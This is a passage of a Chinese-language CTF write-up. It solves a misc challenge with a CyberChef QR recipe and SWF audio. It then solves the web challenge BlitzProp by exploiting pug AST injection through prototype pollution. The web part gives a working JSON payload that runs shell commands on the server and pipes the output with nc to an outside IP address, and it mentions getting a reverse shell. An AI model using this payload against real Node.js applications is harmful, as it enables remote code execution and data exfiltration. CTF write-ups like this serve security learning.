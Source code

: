 可使用如下 receipt 得到前半段 flag。

```plain text
Find_/_Replace({'option':'Regex','string':'0'},'\\xFF',true,false,true,false)
Find_/_Replace({'option':'Regex','string':'1'},'\\x00',true,false,true,false)
Generate_Image('Greyscale',12,21)
Parse_QR_Code(false)
```

```flag
*ctf{half_flag_&
```

将 swf 文件中的音频也导出，使用 Audition 打开后可看到如下内容。

![](https://butter.lumosary.workers.dev/images/archive/4df72543-170c-4dff-a021-5bc0cff9f636/1619254490264.cd2f0825de3b355b40503d04ad10850c9413471b.png)

得到 flag。

```flag
*ctf{half_flag_&&_the_rest}
```

```diff
- *ctf{half_flag_&&_the_rest} // original
+ flag{halfflag&&_the_rest} // flag for BUUOJ
```

### BlitzProp
> 参考：https://blog.p6.is/AST-Injection/
> 下载附件审计代码可以发现 routes 下存在一处 pug 的 AST 注入。

```javascript
router.post('/api/submit', (req, res) => {
    const {song} = unflatten(req.body);
    if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({user: 'guest'})
        });
    } else {
        return res.json({
            'response': 'Please provide us with the name of an existing song.'
        });
    }
});
```

按照参考文章构造 payload 如下。curl 和 bash 都没有，所以选了个 nc，也可以尝试弹 shell。
```json
{"song":{"name":"Not Polluting with the boys"},"__proto__.block":{"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync(`ls | nc 8.136.8.210 3255`).toString())"}}
```

得到如下关键回显。
```plain text
flagTy2bK
index.js
node_modules
package.json
routes
static
view
yarn.lock
```
修改 payload 执行指令为 `cat flagTy2bK` 即可以带出 flag。
